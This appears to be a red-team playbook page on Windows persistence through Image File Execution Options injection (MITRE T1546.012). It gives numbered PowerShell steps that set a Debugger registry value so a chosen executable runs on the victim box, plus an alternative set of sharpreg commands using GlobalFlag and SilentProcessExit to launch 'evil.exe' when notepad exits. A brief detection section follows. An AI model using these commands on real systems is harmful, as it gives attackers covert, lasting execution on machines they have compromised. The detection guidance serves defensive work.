 # [Image File Execution Options Injection](https://attack.mitre.org/techniques/T1546/012/)

## Exploit Description: 
Executing malicious content triggered by Image File Execution Options

## Exploit syntax:
* \<posh syntax\>

1. Get a beacon with administrative privileges. 

2. Put a Executable you want to be ran on the victim box.

3. In parrot open a blank text file and paste the following commands into it. The `Name of key` Should be the Program that you want to imitate. `-Value` should be the Path to the executable on vitcims box.
    ```powershell
	New-item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" -Name "Name of key"
	Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\Name of key" -name "Debugger" -Value "Path to executable on victim"

    ```
4. Save the file as `SomeCleverName.ps1` to `/tmp`

	
5.  In posh, run
    ```powershell
	pslo /tmp/SomeCleverName.ps1
    ```
6. When the Program you made the registry key for is executed. The name of the key is passed to the Value(Path to the executable on victim) you supplied in the powershell script as an argument. Then that executable is ran.  

---
## Alternative Exploit Syntax
 ```powershell
sharpreg create "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512

sharpreg create "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1


# Replace the last argument with the location of the file you would like to run when the process is closed
sharpreg create "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\evil.exe"
```
---
## Detection Technique:
* Monitor for abnormal usage of the GFlags tool as well as common processes spawned under abnormal parents and/or with creation flags indicative of debugging such as DEBUG_PROCESS and DEBUG_ONLY_THIS_PROCESS

* Monitor for any registry changes to HKLM\Software\Microsoft\CurrentVersion\Windows NT\Image File Execution Options\
  
### Event codes:
* Event.code: 13
  * Registry value set (rule: RegistryEvent)
---

## Resources
 Method1:
 [Image File Execution Options Explained](https://www.youtube.com/watch?v=-hz0PTVa0k4&t=182s)

 Method2:
 [Persistence using globalflags in image file execution options](https://oddvar.moe/2018/04/10/persistence-using-globalflags-in-image-file-execution-options-hidden-from-autoruns-exe/)

 